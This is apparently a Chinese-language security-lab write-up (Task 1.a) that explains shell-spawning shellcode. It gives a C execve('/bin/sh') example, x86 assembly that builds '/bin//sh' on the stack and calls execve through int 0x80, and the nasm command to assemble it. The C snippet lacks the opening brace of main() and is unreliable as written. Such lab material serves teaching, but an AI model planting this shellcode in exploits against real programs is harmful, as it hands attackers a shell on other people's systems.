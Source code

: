 # Task 1.a

首先来看一下C语言版本的shellcode：

```c
#include <unistd.h>
int main()
    char *argv[2];
    argv[0]="/bin/sh";
    argv[1]=NULL;
    execve (argv[0],argv,NULL);
	return 0;
}
```

下面汇编代码可以启动一个shell：

```asm
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

几点解释：

- 

使用nasm 编译上面的汇编代码(mysh.s) 

```
$ nasm -f elf32 mysh.s -o mysh.o
```

> nasm 是用于 Intel x86和 x64架构的汇编和反汇编程序。-f elf32选项表明我们希望将代码编译为32位 ELF 二进制格式

掏出程序的生命周期图，可以更好的理解nasm工作原理

